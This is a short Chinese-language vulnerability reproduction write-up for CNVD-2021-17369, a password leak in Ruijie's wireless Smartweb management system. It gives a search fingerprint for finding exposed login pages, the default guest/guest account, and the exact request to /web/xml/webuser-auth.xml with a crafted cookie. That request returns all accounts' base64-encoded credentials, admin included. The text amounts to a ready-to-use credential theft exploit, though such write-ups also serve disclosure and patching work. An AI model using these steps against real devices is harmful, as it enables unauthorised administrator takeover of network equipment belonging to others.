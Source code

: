 # 锐捷 Smartweb管理系统 密码信息泄露漏洞 CNVD-2021-17369

## 漏洞描述

锐捷网络股份有限公司无线smartweb管理系统存在逻辑缺陷漏洞，攻击者可从漏洞获取到管理员账号密码，从而以管理员权限登录。

## 漏洞影响

```
锐捷网络股份有限公司 无线smartweb管理系统
```

## 网络测绘

```
title="无线smartWeb--登录页面"
```

## 漏洞复现

登录页面如下

![](./images/202202110921639.png)

默认存在 guest账户，账号密码为 **guest/guest**

其中登录的过程中搜索admin的数据后发现请求了一个文件 **/web/xml/webuser-auth.xml**，而且响应中包含了 admin密码的base64加密

![](./images/202202110921386.png)

解密就可以获得 admin管理员的密码，尝试直接请求

```plain
http://xxx.xxx.xxx.xxx/web/xml/webuser-auth.xml

Cookie添加
Cookie: login=1; oid=1.3.6.1.4.1.4881.1.1.10.1.3; type=WS5302; auth=Z3Vlc3Q6Z3Vlc3Q%3D; user=guest
```

![](./images/202202110921729.png)

直接获得所有的账户的等级标志和base64加密的账号密码

